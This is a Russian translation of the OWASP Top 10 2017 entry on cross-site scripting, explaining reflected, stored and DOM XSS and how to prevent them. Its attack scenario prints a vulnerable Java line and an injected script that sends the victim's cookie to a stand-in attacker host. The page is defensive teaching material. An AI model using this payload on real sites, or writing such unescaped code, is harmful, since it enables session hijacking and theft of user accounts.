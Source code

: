 # A7:2017 Межсайтовое выполнение сценариев (XSS)

| Источники угроз/Векторы атак | Недостатки безопасности           | Последствия               |
| -- | -- | -- |
| Уровень доступа Lvl : Уязвимости 3 | Распространённость 3 : Обнаруживаемость 3 | Технический 2 : Бизнес |
| Автоматизированные инструменты могут обнаруживать и использовать все три формы XSS, также существуют свободно доступные схемы использования.  | XSS является второй наиболее распространенной проблемой в топ-10 OWASP и находится примерно в двух третях всех приложений. Автоматизированные инструменты могут обнаруживать некоторые проблемы XSS автоматически, особенно в таких зрелых технологиях, как PHP, J2EE / JSP и ASP.NET. | Воздействие XSS является умеренным для отраженных и DOM XSS и серьезным для сохраненного XSS, с удаленным выполнением кода в браузере жертвы, таким как кража учетных данных, сеансов или предоставление вредоносного ПО жертве. |

## Является ли приложение уязвимым?

Существуют три формы XSS, обычно ориентированные на браузеры пользователей:

* **Отражённый XSS**: Приложение или API включает в себя непроверенный и неэкранированный пользовательский ввод как часть вывода HTML. Успешная атака может позволить злоумышленнику выполнить произвольный HTML и JavaScript в браузере жертвы. Как правило, пользователю необходимо взаимодействовать с какой-либо вредоносной ссылкой, которая указывает на страницу, контролируемую атакующем, например, сайты вредоносных веб-сайтов, рекламу и т.д.
* **Сохранённый XSS**: Приложение или API хранит нечистый пользовательский ввод, который позже рассматривается другим пользователем или администратором. Хранимый XSS часто считается высоким или критическим риском.
* **DOM XSS**: JavaScript фреймворки, одностраничные приложения и API-интерфейсы, которые динамически включают данные, управляемые злоумышленниками, на страницу, уязвимы для DOM XSS. В идеале приложение не отправляет данные, управляемые атакующим, в небезопасные API JavaScript.

Типичные атаки XSS включают в себя кражу сеанса, захват учетной записи, обход MFA, замену или повреждение узла DOM (например, панели входа в систему), атаки на браузер пользователя, такие как загрузка вредоносного программного обеспечения, ведение журнала ключей и другие атаки на стороне клиента.

## Как предотвратить?

Предотвращение XSS требует разделения ненадежных данных из активного содержимого браузера. Этого можно достичь следующим образом:

* Использование фреймворков, которые автоматически выходят из XSS по дизайну, такие как новейшие Ruby on Rails, React JS. Изучите ограничения защиты XSS каждой инфраструктуры и надлежащим образом обработайте случаи использования, которые не охвачены.
* Выделение ненадежных данных HTTP-запроса на основе контекста в выходном файле HTML (тело, атрибут, JavaScript, CSS или URL-адрес) позволит устранить уязвимые и сохраненные уязвимости XSS. В [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) содержится подробная информация о методах экранирования требуемых данных.
* Применение контекстно-зависимой кодировки при изменении документа браузера на стороне клиента действует против DOM XSS. Когда этого избежать нельзя, аналогичные методы чувствительности к контекстно-зависимым методам могут применяться к API-интерфейсам браузеров, как описано в OWASP Шпаргалка «Профилактика XSS, основанная на DOM».
* Включение [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) в качестве глубокой защиты элемента управления XSS. Он эффективен, если не существует других уязвимостей, позволяющих размещать вредоносный код через локальный файл (например, переходы по пути переписываются или уязвимые библиотеки из разрешенных сетей доставки контента).

## Пример сценария атаки

**Сценарий #1**: Приложение использует ненадежные данные при построении следующего фрагмента HTML без проверки или экранирования:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
Злоумышленник изменяет параметр «CC» в браузере, чтобы:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Эта атака приводит к тому, что идентификатор сеанса жертвы отправляется на сайт злоумышленника, позволяя злоумышленнику захватить текущий сеанс пользователя.

**Примечание**: Атакующие могут использовать XSS, чтобы победить любую автоматическую защиту от перекрестных запросов (CSRF), которую может применить приложение.

## Рекомендации

### OWASP

* [OWASP Проактивные элементы управления: кодирование данных](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Проактивные элементы управления: проверка данных](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Стандарт проверки безопасности приложения: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Руководство по тестированию: тестирование для отраженного XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Руководство по тестированию: тестирование сохраненного XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Руководство по тестированию: тестирование для DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Шпаргалка: Профилактика XSS](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Шпаргалка: Профилактика XSS основанная на DOM](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Шпаргалка: Уклонение от фильтра XSS](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Проект Java Encoder](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Сторонние

* [CWE-79: Неправильная нейтрализация вводимого пользователем ввода](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Внедрение шаблона на клиентской стороне](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
